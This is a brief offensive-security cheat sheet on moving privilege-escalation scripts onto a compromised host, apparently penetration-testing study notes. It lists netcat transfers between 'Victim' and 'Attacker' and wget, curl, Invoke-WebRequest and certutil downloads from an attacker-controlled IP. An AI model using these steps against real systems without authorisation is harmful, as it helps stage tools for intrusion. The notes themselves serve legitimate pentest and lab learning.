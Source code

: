 # Privilege Escalation

## Transfer Scripts

### Start Local Server:

#### Apache2

> - Copy scripts to `/var/www/html`
> - `sudo systemctl start apache2`

#### SimpleHTTPServer

> Python2
> - `python2 -m SimpleHTTPServer <port>`
>
> Python3
> - `python3 -m http.server <port>`

### Download Scripts:

#### Linux

#### Without Server:

> - Victim: `nc -nvlp <port> > <script>`
> - Attacker: `nc -nv <ip> <port> < <script>`

#### With Server:

> - `wget http://<ip>/<script>`
> - `curl http://<ip>/<script> -o <script>`

#### Windows

#### With Server:

> - `Invoke-WebRequest http://<ip>/<script> -OutFile <script>`
> - `certutil.exe -urlcache -split -f "http://<ip>/<script>" <script>`
